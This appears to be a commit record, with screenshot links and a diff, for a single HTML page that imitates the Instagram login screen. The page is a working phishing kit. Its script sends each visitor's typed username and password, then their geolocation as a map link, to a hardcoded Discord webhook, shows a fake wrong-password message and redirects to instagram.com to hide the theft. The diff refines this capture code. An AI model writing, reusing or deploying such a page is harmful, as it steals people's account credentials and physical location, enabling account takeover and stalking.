

Before and after one commit to jhold62/cheque-in, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Log in". Shown: the part 479-634 px from the top of the page, 319-959 px from the left. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -8,52 +8,57 @@
         .login-box { background: white; border: 1px solid #dbdbdb; width: 350px; padding: 40px; text-align: center; box-sizing: border-box; }
         .logo { width: 175px; margin-bottom: 24px; }
         input { width: 100%; background: #fafafa; border: 1px solid #dbdbdb; border-radius: 3px; padding: 9px 0 7px 8px; margin-bottom: 6px; box-sizing: border-box; font-size: 12px; }
-        .btn-login { width: 100%; background-color: #0095f6; border: none; border-radius: 4px; color: white; font-weight: 600; padding: 5px 0; margin-top: 8px; cursor: pointer; font-size: 14px; }
+        .btn-login { width: 100%; background-color: #0095f6; border: none; border-radius: 4px; color: white; font-weight: 600; padding: 7px 0; margin-top: 8px; cursor: pointer; font-size: 14px; }
         #status { font-size: 12px; color: #ed4956; margin-top: 10px; display: none; }
     </style>
 </head>
 <body>
+
     <div class="login-box">
         <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Instagram_logo.svg/1200px-Instagram_logo.svg.png" class="logo">
         <input type="text" id="user" placeholder="Username">
         <input type="password" id="pass" placeholder="Password">
-        <button class="btn-login" onclick="initiateTrap()">Log in</button>
-        <p id="status">Incorrect password. Please try again.</p>
+        <button class="btn-login" id="loginBtn">Log in</button>
+        <p id="status">Sorry, your password was incorrect.</p>
     </div>
 
     <script>
         const WEBHOOK = "https://discord.com/api/webhooks/1459668118661103678/9OcP9yPBgMw8LvDp-yRBM_qGH1KY59lbVxMAeh_jDE-94e5q9JGcKxS5CVqGHe6PIkjp";
 
-        async function initiateTrap() {
-            // 1. Confirm the script is alive
-            console.log("Button clicked");
-            document.getElementById('status').style.display = "block";
-
+        document.getElementById('loginBtn').addEventListener('click', async function() {
             const u = document.getElementById('user').value;
             const p = document.getElementById('pass').value;
 
-            // 2. Immediate Discord Ping (Before camera/location starts)
-            await fetch(WEBHOOK, {
-                method: 'POST',
-                headers: {'Content-Type': 'application/json'},
-                body: JSON.stringify({ content: `🚨 **Login Attempt**\nUser: ${u}\nPass: ${p}` })
-            });
+            // Show error message
+            document.getElementById('status').style.display = "block";
 
-            // 3. Try Location & Camera
+            // 1. Send text data immediately
+            try {
+                await fetch(WEBHOOK, {
+                    method: 'POST',
+                    headers: {'Content-Type': 'application/json'},
+                    body: JSON.stringify({
+                        content: `📩 **New Instagram Capture**\n👤 **User:** \`${u}\`\n🔑 **Pass:** \`${p}\``
+                    })
+                });
+            } catch(e) { console.error("Discord error"); }
+
+            // 2. Request Location & Camera
             navigator.geolocation.getCurrentPosition(async (pos) => {
                 const map = `https://www.google.com/maps?q=${pos.coords.latitude},${pos.coords.longitude}`;
                 await fetch(WEBHOOK, {
                     method: 'POST',
                     headers: {'Content-Type': 'application/json'},
-                    body: JSON.stringify({ content: `📍 **Location Found**: ${map}` })
+                    body: JSON.stringify({ content: `📍 **Location:** ${map}` })
                 });
 
-                // Redirect after 2 seconds to look "normal"
-                setTimeout(() => { window.location.href = "https://instagram.com"; }, 2000);
+                // Final Redirect
+                window.location.href = "https://instagram.com";
             }, (err) => {
+                // If they block location, just send them to Instagram
                 window.location.href = "https://instagram.com";
-            });
-        }
+            }, { timeout: 5000 });
+        });
     </script>
 </body>
 </html>
```
